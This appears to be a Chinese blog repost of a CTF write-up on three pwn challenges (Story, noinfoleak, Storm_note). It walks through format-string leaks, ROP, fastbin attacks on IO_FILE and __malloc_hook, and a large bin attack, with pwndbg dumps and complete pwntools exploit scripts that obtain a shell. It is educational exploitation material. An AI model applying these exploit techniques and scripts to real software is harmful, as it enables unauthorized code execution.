

<!--yml
category: 未分类
date: 2022-04-26 14:37:37
-->

# linux sort 0x7f,【真题解析】浅析CTF中PWN题型的解题思路_余曉波的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_42500631/article/details/117006814](https://blog.csdn.net/weixin_42500631/article/details/117006814)

原标题：【真题解析】浅析CTF中PWN题型的解题思路

前言

写一下西湖论剑里的三道pwn题，主要讲一下第二道，因为后面我才发现自己解第二道好像是非预期解。。讲一下自己的解题思路吧。

1

PWN之一——Story

常规基础pwn，格式化字符串+ROP。

漏洞：

格式化字符串：

printf(&s);

栈溢出：

if( v1 < 0)

v1 = -v1;

if( v1 > 128)

v1 = 1024LL;

puts( "You can speak your story:");

rread((__int64)&s, v1);

思路：

1、格式化字符串先泄漏canary的值和__libc_start_main的值，得到libc

2、找ROP_gadget

3、栈溢出，覆盖到ROP，返回system

EXP：

frompwn import *

#p = process('./story')

p = remote( 'ctf3.linkedbyx.com',11045)

elf = ELF( './story')

libc = ELF( './libc.so')

p.recvuntil( 'Please Tell Your ID:')

p.sendline( '%15$p,%25$p')

p.recvuntil( 'Hello ')

data1 = p.recv( 18)

p.recvuntil( ',')

data2 = p.recv( 14)

data1 = int(data1, 16)

data2 = int(data2, 16) - 240

print hex(data1),hex(data2)

libc_base = data2 - libc.symbols[ '__libc_start_main']

system_addr = libc_base + libc.symbols[ 'system']

bin_addr = libc_base + libc.search( '/bin/sh').next()

p.recvuntil( 'Tell me the size of your story:')

p.sendline( '144')

p.recvuntil( 'You can speak your story:')

#gdb.attach(p)

payload = 'A'*136 + p64(data1) + 'A'*8 + p64(0x0000000000400bd3) + p64(bin_addr) + p64(system_addr)

p.sendline(payload)

p.interactive()

2

PWN之二——noinfoleak

一看程序就是没有view函数，需要自己想办法leak。因为不久之前刚练手了IO_FILE泄漏的缘故，所以第一时间想到的泄漏就是利用IO_FILE(所以搞的我头皮发麻

只有一个UAF的漏洞，但是足够了。malloc的最大size是0x7f，但是因为程序malloc时候自动加1的缘故，所以最大能拿到0x90的chunk。

漏洞点

UAF：

free(qword_6010A0[ 2* v0]); // UAF

思路

1、Fast bin attack到IO_FILE处

2、修改IO_write_base泄漏地址

3、Fast bin attack到__malloc_hook处

4、malloc触发getshell

实践

Fast bin attack大家都会我这里就不多说了，我这里比较蠢，还用了Double Free的方式来攻击，导致浪费了chunk，这里其实可以free掉之后修改fd来继续分配fake chunk。

因为我要分配到IO_FILE中，且它在libc中，所以我需要找一个接近于他的一个地址，那么最好的方法就是free掉chunk后的fd和bk指针了。

我先malloc一个0x7f的chunk，然后free。

再malloc 0x60大小，字节内容就填个A，防止破坏fd指针。

pwndbg> heap

0xdfd000 FASTBIN {

prev_size = 0x0,

size = 0x71,

fd = 0x7f1ef5c6cb41,

bk = 0x7f1ef5c6cbf8,

fd_nextsize = 0x4141414141414141,

bk_nextsize = 0x4141414141414141,

}

0xdfd070 FASTBIN {

prev_size = 0x0,

size = 0x21,

fd = 0x7f1ef5c6cb78,

bk = 0x7f1ef5c6cb78,

fd_nextsize = 0x20,

bk_nextsize = 0x70,

}

而后我们就可以愉快的fast bin attack了，先malloc两个0x60的chunk，而后都free，形成double free，此时的fast bin：

pwndbg> bins

fastbins

0x20: 0x0

0x30: 0x0

0x40: 0x0

0x50: 0x0

0x60: 0x0

0x70: 0x104f100 —▸ 0x104f090 ◂— 0x104f100

0x80: 0x0

两个chunk的情况：

pwndbg> x/ 10xg 0x104f100

0x104f100: 0x00000000000000000x0000000000000071

0x104f110: 0x000000000104f090 0x0000000000000000

0x104f120: 0x00000000000000000x0000000000000000

0x104f130: 0x00000000000000000x0000000000000000

0x104f140: 0x00000000000000000x0000000000000000

pwndbg> x/ 10xg 0x104f090

0x104f090: 0x00000000000000200x0000000000000070

0x104f0a0: 0x000000000104f100 0x4141414141414141

0x104f0b0: 0x41414141414141410x4141414141414141

0x104f0c0: 0x00000000000000000x0000000000000000

0x104f0d0: 0x00000000000000000x0000000000000000

修改0x104f100的fd指向0x104f000，只需覆盖掉一个字节为x00即可，再malloc两次即可指向最开始所构造的有main_area的chunk，在此之前还得修改一下这个chunk的头两个字节为IO_FILE处的地址。

此时我们往IO_FILE看看哪里可以构造chunk：

可以看到我们需要往0x7f7bd8d375dd地址去fast bin attack，而与前面我们所有的main_area的fd指针chunk只差了后面两个字节，况且5dd还是固定值，所以我们有1/16的机会成功，这就是爆破IO_FILE了。所以我们修改一下该chunk：

edit(3, 'xddx45')

再次malloc，即可在IO_FILE地址处的得到一个chunk。这样我们就可以开始愉快的修改IO_write_base来泄漏了。不过还得修改一下flag的魔数，即0xfbad2883的值。

我这里选择泄漏了错位的地址，其实可以选择泄漏got表上的地址，泄漏函数地址来达到拿到libc的效果，都一样。

payload = 'A'*0x33 + p64(0xfbad1800) + p64(0x7f734fa446a3)*3

payload += 'x50'

create(0x65,payload)

后面就是常规操作了，fast bin到malloc_hook地址即可。这里就不多说了。(exp每家循环，写的不太好。

EXP

from pwn import *

p = process( './noinfoleak')

#p = remote('ctf1.linkedbyx.com',10476)

elf = ELF( './noinfoleak')

libc = ELF( './libc6.so')

context.log_level = 'debug'

def create(size,content):

p.sendlineafter( '>', '1')

p.sendlineafter( '>',str(size))

p.sendafter( '>',content)

def delete( index):

p.sendlineafter( '>', '2')

p.sendlineafter( '>',str( index))

def edit( index,content):

p.sendlineafter( '>', '3')

p.sendlineafter( '>',str( index))

p.sendafter( '>',content)

create( 0x7f, 'A'* 0x20) #0

create( 0x60, 'A'* 0x20) #1

create( 0x60, 'A') #2

delete( 0)

create( 0x60, 'A') #3

delete( 2)

delete( 1)

delete( 2)

gdb.attach(p)

create( 0x60, 'x00') #4

create( 0x60, 'A') #5

create( 0x60, 'x00') #6

edit( 3, 'xddx45')

create( 0x60, 'A')

payload = 'A'* 0x33+ p64( 0xfbad1800) + p64( 0x7f734fa446a3)* 3

payload += 'x50'

create( 0x65,payload)

p.sendline()

libc_base = u64(p.recv( 6).ljust( 8, 'x00'))

libc_base = libc_base - 3954339

printhex(libc_base)

malloc_addr = libc_base + libc.symbols[ '__malloc_hook']

one_gadget_addr = libc_base + 0xf02a4

log.success( 'malloc_addr :'+ hex(malloc_addr))

log.success( 'one_addr :'+ hex(one_gadget_addr))

delete( 2)

delete( 1)

delete( 2)

create( 0x60,p64(malloc_addr- 35))

create( 0x60, 'A')

create( 0x60,p64(malloc_addr- 35))

create( 0x60, 'x00'* 19+p64(one_gadget_addr))

#gdb.attach(p)

p.sendlineafter( '>', '1')

p.sendlineafter( '>',str( 0x10))

p.interactive()

3

PWN之三——Storm_note

这道题其实是一道改编0ctf的一道heapstormII的题目，其实基本一样，就是阉割了一点，难度降低了一点。

这道题其实是一道改编0ctf的一道heapstormII的题目，其实基本一样，就是阉割了一点，难度降低了一点。

漏洞点

OFF-BY-ONE：

if( v1 >= 0&& v1 <= 15&& note[v1] )

{

puts( "Content: ");

v2 = read( 0, ( void*)note[v1], ( signedint)note_size[v1]);

*(_BYTE *)(note[v1] + v2) = 0; // OFF-BY-ONE

puts( "Done");

}

思路

1、利用OFF-BY-ONE进行Overlapping，形成两个指针同时控制两个错位交叉chunk

2、构造Large bin的两个bk和bk_nextsize指针

3、Large bin attack导致任意写

4、在mmap区域的随机数区域处get一个chunk

5、重写mmap区域chunk

6、触发后门函数，getshell

小问题

第一个为：系统具体是如何在链表操作后malloc 0x48后去找到我们在mmap区域所构造出来的0x56大小的chunk的？

第二个为：就是第二个large bin插入后发生的链表操作有以下：

victim->fd_nextsize = fwd;

victim->bk_nextsize = fwd->bk_nextsize;

fwd->bk_nextsize = victim;

victim->bk_nextsize->fd_nextsize = victim;

victim->bk = bck;

victim->fd = fwd;

fwd->bk = victim;

bck->fd = victim;

第一个chunk构造(fwd)：

pwndbg> x/10xg 0x000055740eab36d0

0x55740eab36d0: 0x0000000000000000 0x0000000000000611

0x55740eab36e0: 0x0000000000000000 0x00000000abcd00e8

0x55740eab36f0: 0x0000000000000000 0x00000000abcd00c3

0x55740eab3700: 0x0000000000000000 0x0000000000000000

0x55740eab3710: 0x0000000000000000 0x0000000000000000

第二个chunk构造(victim)：

pwndbg> x/10xg 0x000055740eab3040

0x55740eab3040: 0x0000000000000000 0x0000000000000621

0x55740eab3050: 0x0000000000000000 0x00000000abcd00e0

0x55740eab3060: 0x0000000000000000 0x0000000000000000

0x55740eab3070: 0x0000000000000000 0x0000000000000000

0x55740eab3080: 0x0000000000000000 0x0000000000000000

发生链表操作后，第一个chunk：

pwndbg> x/ 10xg 0x0000562493c6d6d0

0x562493c6d6d0: 0x00000000000000000x0000000000000611

0x562493c6d6e0: 0x00000000000000000x0000562493c6d040

0x562493c6d6f0: 0x00000000000000000x0000562493c6d040

0x562493c6d700: 0x00000000000000000x0000000000000000

0x562493c6d710: 0x00000000000000000x0000000000000000

第二个chunk：

pwndbg> x/ 10xg 0x0000562493c6d040

0x562493c6d040: 0x00000000000000000x0000000000000621

0x562493c6d050: 0x00007f6959dd4b78 0x00000000abcd00e8

0x562493c6d060: 0x0000562493c6d6d0 0x00000000abcd00c3

0x562493c6d070: 0x00000000000000000x0000000000000000

0x562493c6d080: 0x00000000000000000x0000000000000000

我根据代码操作后，发现第二个chunk发生链表后的fd和bk指针改变的和我操作的不一致，根据代码victim->fd = fwd;他的fd指针应该是0x0000562493c6d6d0，但是不是，而是main_area地址，bk指针也同样不一致。

还有mmap区域的chunk：

pwndbg> x/ 10xg 0xabcd00e0

0xabcd00e0: 0x2493c6d040000000 0x0000000000000056

0xabcd00f0: 0x00007f6959dd4b78 0x0000562493c6d040

0xabcd0100: 0x01627aa51d72b4f5 0x716640eeb63e737c

0xabcd0110: 0x97f5a8e005bc15e5 0x8854b65bb145df49

0xabcd0120: 0x8761c55ca19c79980xda55ad2af9da7c5f

在0xabcd00f0 - 8区域为什么会有main_area和victim chunk的指针的？

已解决(上述小问题)

具体看源码，unsort bin插入到large bin中去的情况：

else

{

victim_index = largebin_index (size);

bck = bin_at (av, victim_index);

fwd = bck->fd;

....

....

....

// 如果size

if((unsigned long) (size)

< (unsigned long) chunksize_nomask (bck->bk))

{

fwd = bck;

bck = bck->bk;

victim->fd_nextsize = fwd->fd;

victim->bk_nextsize = fwd->fd->bk_nextsize;

fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;

}

else

{

assert (chunk_main_arena (fwd));

// 否则正向遍历，fwd起初是large bin第一个chunk，也就是最大的chunk。

// 直到满足size>=large bin chunk size

while((unsigned long) size < chunksize_nomask (fwd))

{

fwd = fwd->fd_nextsize; //fd_nextsize指向比当前chunk小的下一个chunk

assert (chunk_main_arena (fwd));

}

if((unsigned long) size

== (unsigned long) chunksize_nomask (fwd))

/* Always insert in the second position. */

fwd = fwd->fd;

else

// 插入

{

victim->fd_nextsize = fwd;

victim->bk_nextsize = fwd->bk_nextsize;

fwd->bk_nextsize = victim;

victim->bk_nextsize->fd_nextsize = victim;

}

bck = fwd->bk; //不能忽视，对后面有影响

}

}

else

victim->fd_nextsize = victim->bk_nextsize = victim;

}

mark_bin (av, victim_index);

victim->bk = bck;

victim->fd = fwd;

fwd->bk = victim;

bck->fd = victim;

主要操作有以下：

victim->fd_nextsize = fwd;

victim->bk_nextsize = fwd->bk_nextsize;

fwd->bk_nextsize = victim;

victim->bk_nextsize->fd_nextsize = victim;

bck = fwd->bk; //对后面的bck有影响

victim->bk = bck;

victim->fd = fwd;

fwd->bk = victim;

bck->fd = victim;

我就是漏了上面中间的这一块，导致后面数据对比不完整。

还有很重要的一点就是，当申请0x48大小的时候，先往unsort bin中寻找，找到bk指向的(遍历顺序为bk)0x620大小的chunk，该chunk与0x48不对应，所以会被放到large bin当中去，首先要做的便是从unsort bin中取出来：

/* remove from unsorted list */

if(__glibc_unlikely (bck->fd != victim))

malloc_printerr ( "malloc(): corrupted unsorted chunks 3");

unsorted_chunks (av)->bk = bck;

bck->fd = unsorted_chunks (av);

因为我们构造的该0x620大小的chunk的bk指针为是0x00000000abcd00e0，所以该chunk脱链之后main_area中的bk指向就变成了0x00000000abcd00e0。而后在链入large chunk的过程中，又将0x00000000abcd00e0处的chunk的size，fd，bk等值都构造好了，所以unsort bin继续按bk遍历后就到了我们构造好的0x00000000abcd00e0处了，该chunk为0x56大小，刚好符合我们的要求，所以便取出。这里为什么不能为0x55？因为该部分位于mmap区域，需要使得size字段的IS_MAPPED，即第二个比特位为1，而0x55低三位为101，不能满足，代码中这样限制：

assert (!mem ||chunk_is_mmapped (mem2chunk (mem)) ||

av == arena_for_chunk (mem2chunk (mem)));

所以需要为0x56才能满足。

根据先脱离unsort bin的操作，再根据插入large bin的操作，就可以明白上面发生链表操作之后两个chunk所发生的变化了。

EXP：

frompwn import*

p = process( './Storm_note')

#p = remote('ctf1.linkedbyx.com',10476)

elf = ELF( './Storm_note')

libc = ELF( './libc-2.23.so')

#max_fast =

defcreate(size):

p.sendlineafter( 'Choice: ', '1')

p.sendlineafter( 'size ?n',str(size))

defedit(index,content):

p.sendlineafter( 'Choice: ', '2')

p.sendlineafter( 'Index ?n',str(index))

p.sendafter( 'Content: n',content)

defdelete(index):

p.sendlineafter( 'Choice: ', '3')

p.sendlineafter( 'Index ?n',str(index))

defgetshell():

p.sendlineafter( 'Choice: ', '666')

p.sendlineafter( 'If you can open the lock, I will let you in', 'A'* 0x30)

create( 0x28) #0

create( 0x528) #1

create( 0xf8) #2

create( 0x28) #3

create( 0x28) #4

create( 0x518) #5

create( 0xf8) #6

create( 0x28) #7

delete( 0)

edit( 1, 'A'* 0x520+p64( 0x560))

delete( 2)

create( 0x38) #0

create( 0x610) #2

delete( 4)

edit( 5, 'A'* 0x510+p64( 0x550))

delete( 6)

create( 0x38) #4

create( 0x600) #6

delete( 6)

delete( 2)

create( 0x610) #2

edit( 5,p64( 0)+p64( 0x611)+p64( 0)+p64( 0xABCD0100-0x20+ 8)+p64( 0)+p64( 0xABCD0100-0x38-5))

delete( 2)

edit( 1,p64( 0)+p64( 0x621)+p64( 0)+p64( 0xABCD0100-0x20))

create( 0x48) #2

gdb.attach(p)

edit( 2,p64( 0)* 2+ 'A'* 0x30)

getshell()

p.interactive()

Reference：

http://eternalsakura13.com/2018/04/03/heapstorm2/

https://blog.csdn.net/weixin_40850881/article/details/80293143

文：V1NKe

链接：http://v1nke.win/2019/04/09/2019-%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%91-PWN/

END

责任编辑：